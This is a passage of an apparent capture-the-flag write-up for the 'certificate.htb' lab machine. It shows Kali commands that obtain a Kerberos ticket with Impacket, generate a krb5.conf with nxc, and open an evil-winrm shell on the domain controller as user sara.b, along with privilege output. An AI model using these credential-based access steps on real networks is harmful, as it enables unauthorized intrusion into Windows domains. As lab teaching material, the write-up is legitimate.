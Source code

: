 Generate the ticket granting ticket 
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.71 'certificate.htb/sara.b:<PASSWORD_REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in sara.b.ccache
```

Export our ticket for use by other programs
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ export KRB5CCNAME=$(pwd)/sara.b.ccache  
```

Generate the configuration file and move it to `/etc/krb5.conf`. This is important for `evil-winrm`
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad nxc smb 10.10.11.71 -u 'sara.b' -p '<PASSWORD_REDACTED>' -k --generate-krb5-file krb5.conf && sudo mv krb5.conf /etc/krb5.conf
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:<PASSWORD_REDACTED> 
```

```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ cat /etc/krb5.conf 
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = CERTIFICATE.HTB

[realms]
    CERTIFICATE.HTB = {
        kdc = dc01.certificate.htb
        admin_server = dc01.certificate.htb
        default_domain = certificate.htb
    }

[domain_realm]
    .certificate.htb = CERTIFICATE.HTB
    certificate.htb = CERTIFICATE.HTB
```

Now we can login as `sara.b`
```powershell
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad evil-winrm -i dc01.certificate.htb -r certificate.htb

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami
certificate\sara.b
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
